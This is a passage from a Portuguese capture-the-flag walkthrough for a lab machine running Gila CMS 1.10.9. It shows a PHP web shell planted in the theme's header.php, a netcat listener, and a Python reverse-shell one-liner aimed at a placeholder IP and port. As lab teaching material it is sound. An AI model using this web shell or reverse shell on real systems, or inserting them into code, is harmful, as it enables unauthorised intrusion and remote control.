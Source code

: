 ![Pasted image 20220601092834](https://user-images.githubusercontent.com/77530544/171439418-ddf03baf-9cd4-4823-af0e-946d09154ba0.png)

Agora temos acesso à pagina **admin**:

![Pasted image 20220601092914](https://user-images.githubusercontent.com/77530544/171439487-a50b88ec-319c-48d9-9e2a-182efb121d6e.png)

Com isso, conseguimos saber a versão do **Gila CMS**: 1.10.9
Obtivemos acesso à um painel de admin, com direito até a um **File Manager** com **adição**, **remoção** e **update** de arquivos:

![Pasted image 20220601093523](https://user-images.githubusercontent.com/77530544/171439692-5778287d-fc1d-4c79-8f74-a2f8fb19dd8e.png)
![Pasted image 20220601093640](https://user-images.githubusercontent.com/77530544/171439723-f4b9376a-1d7a-48ec-9240-647f39d01e6b.png)

Iremos modificar o arquivo **/themes/gila-blog/header.php** atrás de obter um **reverse shell** através de um **webshell**:

```
[...]
<?php
system($_GET["cmd"]); # Retorna web shell que aceita input
view::stylesheet('lib/gila.min.css');
view::stylesheet('lib/font-awesome/css/font-awesome.min.css');
view::head()?>
<style>
[...]
```

Hora de testar o **webshell**, para isso vamos até **cmess.thm** e no final do endereço vamos adicionar "**?cmd=ls**", para rodar o comando **ls** naquele **webshell**, que nos retornará uma listagem de diretório, bem no começo da página:

![Pasted image 20220601095445](https://user-images.githubusercontent.com/77530544/171439769-64cffdd3-d820-4aef-bb7a-12fefc9d4fa7.png)

Decidi usar **Python** para obter este **reverse shell**, então para isso vamos descobrir a versão que temos instalada em nosso alvo rodando **"?cmd=Python3 --version"**:

![Pasted image 20220601100556](https://user-images.githubusercontent.com/77530544/171439809-332fb639-371a-42be-aa8d-2b4a9583c62b.png)

Agora vamos abrir um **listener** em nossa máquina, que irá ficar esperando a conexão da máquina alvo.

```
nc -lnvvvp 6666                                                                     
Listening on any address 6666
```

Os comandos que vamos inserir em nosso **webshell** agora serão um pouco mais robustos. **Exemplo de reverse shell em Python com uma linha de código**:  
*Leitura recomendada: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
